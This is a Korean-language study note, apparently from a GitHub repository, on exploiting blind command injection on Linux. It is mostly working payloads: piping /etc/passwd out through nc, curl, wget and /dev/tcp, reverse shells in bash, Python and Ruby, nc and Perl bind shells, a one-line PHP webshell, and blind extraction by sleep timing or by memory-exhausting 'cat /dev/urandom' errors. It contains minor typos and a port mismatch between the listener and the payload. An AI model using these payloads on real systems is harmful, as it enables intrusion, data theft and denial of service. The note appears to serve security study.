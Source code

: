 # Command Injection for Linux

## 실행 결과를 확인할 수 없는 환경
Command Injection 취약점이 발생하지만 실행한 명령어의 결과가 보여지지 않을 때의 상황에서 활용할 수 있는 공격 방법

<br/>

### 네트워크의 인/아웃 바운드의 제한이 없을 때 사용할 수 있는 방법
* **Network Outboud**: 삽입할 명령줄에 네트워크 도구를 함께 실행해 자신의 서버에 명령어 실행 결과를 전송함
    - 네트워크 도구를 서버에 설치할 수 있거나 설치되었을 때 사용 가능한 방법들이 해당됨
    - 네트워크를 통해 명령어의 실행 결과를 전송하는 방법
        | 방법 | 설명 |
        |---|----|
        | nc(netcat) | TCP 또는 UDP 프로토콜을 사용하는 네트워크에서 데이터를 송수신하는 프로그램 <br/> &nbsp;&nbsp; - 셸에서 제공하는 파이프와 함께 사용하여 앞서 실행한 명령어의 결과를 네트워크로 전송할 수 있음 |
        | telnet | 네트워크 연결에 사용되는 프로토콜(클라이언트를 설치해 네트워크에 연결을 시도할 수 있음) <br/> &nbsp;&nbsp; - 파이프와 함께 사용하여 앞서 실행한 명령어의 결과를 네트워크로 전송할 수 있음 |
        | CURL/WGET | 웹 서버의 컨텐츠를 가져오는 프로그램 <br/> &nbsp;&nbsp; - 웹 서버에서 컨텐츠를 가져오기 위해 서버를 방문할 때 접속 로그가 남게 되는 특징을 이용해 명령어의 실행 결과를 웹 서버의 경로 또는 Body와 같은 영역에 포함해 전송함 |
        | /dev/tcp & /dev/udp | Bash에서 지원하는 기능으로 네트워크에 연결하는 방법 <br/> &nbsp;&nbsp; - ```/dev/tcp``` 또는 ```/dev/udp``` 장치 경로의 하위 디렉터리로 IP 주소와 포트 번호(```/dev/tcp/127.0.0.1/8000```)를 입력하면 Bash는 해당 경로로 네트워크 연결을 시도하는 특징을 이용해 출력을 ```>``` 문자로 재지정하여 해당 경로로 명령어의 샐행 결과를 전송할 수 있음 |
        + 예시
            ```
            # /etc/passwd 파일의 출력 결과를 127.0.0.1의 8000번 포트로 전송
            cat /etc/passwd | nc 127.0.0.1 8000
            cat /etc/passwd | telent 127.0.0.1 8000

            # CURL을 이용하여 ls -al의 결과(디렉터리 목록)를 네트워크(127.0.0.1의 8000번 포트)로 전송함
            curl "http://127.0.0.1:8000/?$(ls -al|base64 -w0)" # 실행 결과의 개행을 제거하기 위해 base64로 인코딩하여 전달함

            # CURL, WGET을 이용하여 ls -al의 결과(디렉터리 목록)를 Post Body에 포함해 요청을 보냄
            curl http://127.0.0.1:8000/ -d "$(ls-al)"
            wget http://127.0.0.1:8000 --method=POST --body-data="`ls -al`"

            # /dev/를 이용하여 /etc/passwd 파일의 출력 결과를 127.0.0.1의 8000번 포트로 전송
            cat /etc/passwd > /dev/tcp/127.0.0.1/8000
            ```

<br/>

* **Reverse & Bind Shell**: 임의로 실행할 명령어를 네트워크를 통해 입력하고, 실행 결과를 출력해 공격하는 기법
    - 리버스 셸(Reverse Shell): 공격 대상 서버에서 공격자의 서버로 셸을 연결하는 것
        + 리버스 셸을 이용해 명령어의 샐행 결과를 전송하는 방법
            | 방법 | 설명 |
            |---|------|
            | **sh & Bash** | ```/dev/tcp``` 또는 ```/dev/udp``` 경로를 사용해 포트를 서비스하는 서버에 공격 대상의 서버를 실행시킬 수 있음 <br/> &nbsp;&nbsp; - 경로에 입력한 IP 주소를 가진 서버에서 특정 포트를 열고 기다린 후 명령어를 실행하면 셸을 획득할 수 있음 |
            | **언어 사용** | 명령줄에서 코드를 작성해 실행할 수 있는 파이썬, 루비 등의 언어를 이용하여 명령줄에서 소켓을 사용해 리버스 셸 공격을 수행함 |
            - sh&bash를 이용한 리버스 셸 예시
                + 공격 대상 서버(victim)
                    ```
                    /bin/sh -i >& 
                    /dev/tcp/127.0.0.1/8000 0>&1
                    /bin/sh -i >&
                    /dev/udp/127.0.0.1/8000 0>&1
                    ```
                + 공격자 서버(attacker)
                    ```
                    nc -l -p 8080 -k -v
                    /* 명령어 실행 결과: 127.0.0.1를 가진 공격자 서버는 8000번 포트를 열고 연결을 기다리고 있음(공격 전에 미리 준비)
                    Listening on [0.0.0.0] (family 0, port 8080)
                    Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 42202)
                    */

                    id
                    /* 명령어 실행 결과 - 셸을 획득할 수 있음
                    uid=1000(aaa) gid=1000(aaa) groups=1000(aaa)
                    */
                    ```
            - 언어를 이용한 리버스 셸 예시 (명령줄에 해당 코드를 입력함)
                + 파이썬
                    ```python
                    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
                    ```
                + 루비
                    ```Ruby
                    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","8000");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
                    ```
    - 바인드 셸(Bind Shell): 공격 대상 서버에서 특정 포트를 열어 셸을 서비스하는 것
        + 바인드 셸을 통해 명령어의 실행 결과를 전송하는 방법
            | 방법 | 설명 |
            |---|------|
            | **nc(netcat)** | 버전에 따라 특정 포트에 임의 서비스를 등록할 수 있도록 제공하는 ```-e``` 옵션을 이용해 포트를 열고 ```/bin/sh```를 실행시킴 |
            | **언어 사용** | 펄(Perl) 스크립트를 작성해서 특정 포트를 셸(```/bin/bash```)과 함께 바인딩할 수 있음 |
            - nc를 이용한 바인드 셸 예시
                ```
                # 공격 대상 서버에서 8000번 포트를 열고 /bin/bash를 실행하는 명령어
                nc -nlvp 8000 -e /bin/bash
                ncat -nvlp 8000 -e /bin/bash
                ```
            - ```/bin/bash```와 함께 포트를 바인딩하는 펄 스크립트 예시
                ```perl
                perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
                ```

<br/>

* **파일 생성**: 애플리케이션 상에서 직접 확인할 수 있는 파일 시스템 경로에 명령어의 실행 결과를 저장한 파일을 생성하는 방법
    - 파일을 통해 명령어의 실행 결과를 보는 방법
        | 방법 | 설명 |
        |---|------|
        | **Script Engine** | *Command Injection 취약점이 발생하고, 웹 서버가 지정한 경로를 알고 있으면* 해당 위치에 셸을 실행하는 웹셸(Webshell) 파일을 업로드한 후 해당 페이지에 접속해 셸을 실행하여 그 결과를 확인함 <br/> &nbsp;&nbsp; - 웹 서버가 지정된 경로에 존재하는 파일을 브라우저에 표시한다는 점을 이용함 <br/> &nbsp;&nbsp; - PHP, JSP, ASP 등 웹 서버가 해석 가능한 파일을 만들어 접근할 수 있음 |
        | **Static File Directory** | Static File Directory에 실행한 명령어의 결과를 파일로 생성하고, 해당 파일에 접근해 그 결과를 확인함 <br/> &nbsp;&nbsp; - Static File Directory: 프레임워크 또는 웹 애플리케이션에서 JS/CSS/img 등의 정적 리소스를 다루기 위해 사용함 <br/> &nbsp;&nbsp;&nbsp; - Static File Directory에 파일 생성 권한이 있어야 공격이 가능함 |
        + Script Engine을 이용해 webshell을 등록하는 명령어 예시와 그 실행 결과
            ```php
            printf '<?=system($_GET[0])?>' > /var/www/html/uploads/shell.php
            ```
            - ```접속 경로/uploads/shell.php?0=id```를 브라우저에서 방문하면 id 명령어의 실행 결과를 확인할 수 있음
        + Static File Directory(```static```)를 이용한 실행 결과 확인 방법 예시 (파이썬 Flask 프레임워크)
            ```linux
            mkdir static; id > static/result.txt
            ```
            - 해당 디렉터리를 사용하지 않는 환경에서도 static 디렉토리를 생성하고 파일을 생성하면 그 결과를 확인할 수 있음 → static 디렉터리를 생성하고, ```id``` 명령어의 실행 결과를 result.txt에 저장하고 있음(```static/result.txt``` 페이지를 방문하면 실행 결과 확인 가능)

<br/><br/>

### 네트워크의 인/아웃 바운드의 제한이 걸려 있는 상황에서 참/거짓 비교문으로 데이터를 알아내는 방법
공격 대상 서버에서 네트워크 방화벽 규칙을 설정해 인/아웃 바운드에 제한이 걸려 있는 경우 셸을 이용한 공격은 불가능함 → 참/거짓 비교문으로 데이터를 알아내야 함

<br/>

* 지연 시간(sleep): 비교하는 값이 참일 경우 ```sleep``` 명령어를 실행해 지연 시간을 발생시켜 웹 애플리케이션에서 반환하는 속도를 이용하여 데이터를 획득하는 방법
    - 명령어의 결과를 base64로 인코딩한 값을 한 바이트씩 비교하여 지연 발생 여부(참/거짓)을 통해 데이터를 알아냄
        1. 명령어의 결과를 base64로 인코딩함
            ```
            id
            /* id 명령어 실행 결과
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
            */

            id | base64 -w 0
            /* id 명령어 실행 결과를 base64로 인코딩한 결과
            dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
            */
            ```
        2. 인코딩하여 나온 값을 한 바이트씩 비교하는 Bash 스크립트를 작성하여 참이면 ```sleep``` 명령어를 실행하고, 아니라면 스크립트를 종료해 지연 시간 발생 여부로 데이터를 알아냄
            ```bash
            bash -c "a=\$(id | base64 -w 0); if [ \${a:0:1} == 'd' ]; then sleep 2; fi;" # 결과: 2초 지연 발생 (true) → 첫번째 문자 d
            bash -c "a=\$(id | base64 -w 0); if [ \${a:1:1} == 'W' ]; then sleep 2; fi;" # 결과: 2초 지연 발생(true) → 두번째 문자 W
            bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'a' ]; then sleep 2; fi;" # 결과: 지연 발생 X (false)
            bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'l' ]; then sleep 2; fi;" # 결과: 2초 지연 발생(true) → 세번째 문자 l
            ```

<br/>

* 에러 (DoS): 비교하는 값이 참일 경우에 시스템 에러(Internal Server Error, HTTP 500)을 발생시켜 에러 반환 여부를 통해 데이터를 획득하는 방법
    - 시간을 지연시키는 방법이 불가능하거나 지연을 확인하기 어려운 경우에 사용할 수 있음
        + 메모리를 많이 소모하는 명령어를 입력하는 등의 행위로 **Internal Server Error**를 발생시켜 참과 거짓을 판별함
            - 메모리를 소모하는 방법은 다양하지만 제일 간단한 방법으로 ```cat /dev/urandom``` 명령어를 실행시켜 할당된 메모리를 초과했다는 에러를 발생시킴
    - 명령어의 결과를 base64로 인코딩한 값을 한 바이트씩 비교하여 Internal Server Error 발생 여부(참/거짓)를 통해 데이터를 알아냄
        1. 명령어의 결과를 base64로 인코딩함 (위의 과정과 동일)
        2. 인코딩하여 나온 값을 한 바이트씩 비교하는 Bash 스크립트를 작성해 500(Internal Server Error, 서버 측 에러)이라면 참, 200(Success, 성공) 등이라면 거짓으로 판단함
            ```bash
            bash -c "a=\$(id | base64 -w 0); if [ \${a:0:1} == 'd' ]; then cat /dev/urandom; fi;" # 결과: 500(서버 측 에러) → true (첫번째 문자 d)
            bash -c "a=\$(id | base64 -w 0); if [ \${a:1:1} == 'W' ]; then cat /dev/urandom; fi;" # 결과: 500(서버 측 에러) → true (두번째 문자 W)
            bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'a' ]; then cat /dev/urandom; fi;" # 결과: 200(성공) → false
            bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'l' ]; then cat /dev/urandom; fi;" # 결과: 500(서버 측 에러) → true (세번재 문자 l)
            ```

<br/><br/><br/>
